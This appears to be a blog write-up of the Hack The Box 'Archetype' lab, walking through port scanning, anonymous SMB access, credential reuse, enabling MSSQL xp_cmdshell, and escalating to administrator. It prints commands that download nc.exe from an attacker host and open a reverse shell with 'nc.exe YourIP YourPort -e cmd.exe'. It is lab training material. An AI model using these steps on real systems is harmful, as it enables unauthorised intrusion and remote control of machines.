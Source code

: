 ```yaml
---
published: true
layout: post
---
```


This one was a classic, the room revolves around a misconfiguration in mssql that allows the user to enable_xp_cmdshell which opens a path to achieve remote code execution on the machine via xp_cmdshell. And a later exploitation of an unsecured important file that led to full access on the machine.  


<center>
  <br>
  <br>
  <br>
<script src="https://tryhackme.com/badge/39696"></script>
</center>

## Information Gathering
---
### Starting with a port scan:
First we do a fast scan in order to identify what ports are up and running:   
**nmap 10.10.10.27 -p- -Pn --min-rate 1500 -vvv -oN AllPorts.txt**
![nmap.png]({{site.baseurl}}/images/nmap.png)


And after that we run a full scan on the ports that we have identified:    
 **sudo nmap 10.10.10.27 -p 135,139,445,1433,5985,47001 -sVC -O -v -oA FoundPorts.txt**

which gives us the following output:
![nmap2.png]({{site.baseurl}}/images/nmap2.png)


We can check the running services and see that the running OS is Windows. Even more, it seems to be running a Microsoft Windows Server between version 2008 R2 and 2012 which are known to have quite a handful of exploits. Only in 2021 there have been [186 exploits](https://stack.watch/product/microsoft/windows-server-2008/#:~:text=In%202021%20there%20have%20been,had%20382%20security%20vulnerabilities%20published.&text=However%2C%20the%20average%20CVE%20base,2021%20is%20greater%20by%200.42.) with an average CVE of 7.9 out of 10.

We also see **WinRM** (Windows Remote Management) that is a Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate.
[EvilWinRm](https://github.com/Hackplayers/evil-winrm) can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. So we can say that it could be used in a post-exploitation hacking/pentesting phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff. 

<br>
<br>
<br>

## The SMB share
---
Having port 445 up hints me to try to connect to HTB Archetype using smb.

**smbclient -L 10.10.10.27**  
![smbp.png]({{site.baseurl}}/images/smbp.png)


Looks like we have found quite a few shares, even without using a password.
The most interesting share is "**backups**" which is also the only non-default share.  
Using **smbclient \\\\10.10.10.27\\backups** we can connect to this share.

We now have access to a config file **prod.dtsConfig** that  can be downloaded with: 
**get prod.dtsConfig**.
![smb2.png]({{site.baseurl}}/images/smb2.png)


The file was actually a lucky hit as it contains information about the backend database and also an username and password pair which can be used to gain a foothold on the box.

![file.png]({{site.baseurl}}/images/file.png)

<br>
<br>
<br>

## Obtaining a foothold
---
I am going to use the **impacket mssql client** from [SecureAuthCorp](https://github.com/SecureAuthCorp/impacket) in order to connect to the database.

### Installing steps
1. cd /opt  && sudo git clone https://github.com/SecureAuthCorp/impacket.git
2. cd impacket/
3. sudo pip3 install .
4. sudo python3 setup.py install

The command line goes as it follows:  
 **python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth**

_Note:  "-windows-auth" flag is very important since w/o it the shell won't be able to connect to the database._

This lands us in a what appears to be a SQL shell, running a few SQL commands seem to prove my hypothesis, now as with any other tool that you are not quite sure how it's supposed to be run, typing HELP is always a good option ;).

![sql.png]({{site.baseurl}}/images/sql.png)

As it looks like we have enough privileges to enable xp_cmdshell, so we go on and type **enable_xp_cmdshell;** and after that **reconfigure;**.


Now in order to see if we can run commands i'm going to try the following syntax: **xp_cmdshell powershell whoami /priv**, and this sure enough returns the Privileges information of the current user.
![shrll1.png]({{site.baseurl}}/images/shrll1.png)  

_Note: Pay attention to [SeImpersonatePrivilege](https://steflan-security.com/linux-privilege-escalation-token-impersonation/) as this will be important later, also it helps reading about [exploitable windows tokens](https://steflan-security.com/linux-privilege-escalation-token-impersonation/) if you're interested in privilege escalation techniques_

Now as we got a foothold we can either try to get a more stable shell, or proceed with this one. But for now this is enough to grab the user flag.
![FlagUser.png]({{site.baseurl}}/images/flag1.png)

<br>
<br>
<br>

## Escalating to a reverse shell
---
Escalating to a reverse shell in this scenario is pretty much trivial and can be done in a handful of ways.
The way i'm going to do it is by uploading an [old windows netcat executable](https://github.com/Ev3nS/Useful-Pentesting-Executables) that has the **-e flag** in order to spawn a powershell.exe and send it to my local listener.

### Uploading  nc.exe
1. Spawning a http server on desktop (where the executable is located):  
![httpServer.png]({{site.baseurl}}/images/httpServer.png)
2. Getting the executable on the machine with the command line:  
**xp_cmdshell powershell "wget http://YourIP:GivenPort/nc.exe -OutFile %temp%/nc.exe"**  
![SqlCommand.png]({{site.baseurl}}/Images/SqlCommand.png)


### Getting the shell
1. Spawning a local listener on port 4444 with the command line: **nc -lvnp 4444**
2. Running the uploaded executable as it follows: **xp_cmdshell  powershell "nc.exe YourIP YourPort -e cmd.exe"**  
![SqlCommand2.png]({{site.baseurl}}/Images/SqlCommand2.png)
3. Check if we got a hit on our local listener:  
![FirstCmdShell.png]({{site.baseurl}}/Images/FirstCmdShell.png)

<br>
<br>
<br>

## Escalating to a root shell
---
As of now, we have full access to a low privileged account, so a good thing to do is to enumerate what you can do with that account on the system. Also we know from the SMB chapter that this user can Impersonate Tokens, which means that we can take ownage of a process run by a higher privileged user on the system and create a privileged shell. This can be done via [Juicy-Potato exploit](https://github.com/ohpe/juicy-potato). But for the sake of this room i will go with an easier path, as this vulnerability will be exploited in a later post.

Once you gain access to a shell in general it is good to check a few things: what privileges you have, what processes are running, what is your ip, who else is on the box, what files you have access to, any weird files/binaries/executables that shouldn't be there, are there any notes or secret files that are left unprotected? what's the bash/batch history and so on.

Fortunately, while digging for the last accessed files i've found this peculiar file lying around:  		 

![oddfile.png]({{site.baseurl}}/images/oddfile.png)

As it looks like this file was actually pretty useful as it leaks the credentials of the administrator account:  
![creds.png]({{site.baseurl}}/images/creds.png)


Now as we have the credentials we can use a [python tool for PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) in order to remotely connect to the box as administrator:
![root.png]({{site.baseurl}}/Images/root.png)

All that is left to do now is to grab the root flag and we're done.    
![rootflang.png]({{site.baseurl}}/images/root2.png)

<br>
<br>
<br>

## Conclusions
---
On an ending note, i really liked this box for the fact that it promotes a good pentesting methodology, it's backbone is just a lot of enumeration and googling  and it offers a nice corelation between different services.
